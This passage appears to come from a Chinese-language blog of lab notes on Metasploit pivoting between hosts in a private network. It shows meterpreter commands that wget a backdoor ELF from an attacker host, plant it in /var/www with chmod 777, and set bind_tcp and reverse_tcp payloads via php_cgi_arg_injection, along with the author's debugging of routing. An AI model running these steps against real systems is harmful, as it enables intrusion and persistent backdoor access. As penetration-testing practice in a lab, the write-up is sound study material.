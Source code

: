 ```bash
# 进入192.168.6.129的meterpreter
sessions 2
shell
wget http://172.16.56.1:8000/backdoor2.elf
cd /var/www
mv /backdoor2.elf ./
chown www-data:www-data backdoor2.elf
chmod 777 backdoor2.elf
```

然后进入`.128`的php meterpreter：

![Screen Shot 2018-10-18 at 4.45.02 PM.png]({{ site.url }}/images/metasploit/05606BB7B1A09AB2C319DC633B3FCA6D.png)

新开一个msfconsole：

```
msf exploit(multi/handler) > set payload linux/x86/meterpreter/bind_tcp
payload => linux/x86/meterpreter/bind_tcp

msf exploit(multi/handler) > set RHOST 192.168.6.128
RHOST => 192.168.6.128

msf exploit(multi/handler) > set LPORT 6666
LPORT => 6666
```

然后在php meterpreter开的shell中运行`./backdoor2.elf`，再

![Screen Shot 2018-10-18 at 10.12.28 PM.png]({{ site.url }}/images/metasploit/D4747DFC5631092E63D7B727CD7AB4BC.png)

没反应。我怀疑是php meterpreter开启的shell受到了某些限制。

其实上面的想法是错误的。问题在于，我们不应该新开一个msfconsole去连接bind shell，原因很简单，因为这个新的msfconsole没有到`192.168.6.128`的路由！

所以我们要在同一个msfconsole中先运行`.backdoor2.elf`再连接。

我现在还不知道怎样操作，因为一旦进入php meterpreter中执行`shell`后怎么能切换出去呢？我的一个想法是通过`./backdoor2.elf &`将其后台运行，然后推出这个shell，再`use ...bind_tcp`去连接。这样会进行到

![Screen Shot 2018-10-18 at 10.36.22 PM.png]({{ site.url }}/images/metasploit/686E7D40D9246C8F2BD8AB895828FF82.png)

然后卡住，依然不能给出一个新的session。

另外，作者从这里获得的是一个root权限的meterpreter。这点我不理解，就算能成功，获得的也该是一个`www-data`权限的吧。所以我觉得作者做了其他诸如提权的措施，或者他的环境中php是以root权限运行的，但是没有告诉读者。

对`.128`的渗透暂时到此。

---

**更新**

如果我们预先按照后面解决网络问题的方式在`.128`中添加路由，那么反向shell就可以使用。这种情况下，可以按照如下方式获得一个正常的meterpreter：

```
msf exploit(multi/http/php_cgi_arg_injection) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
```
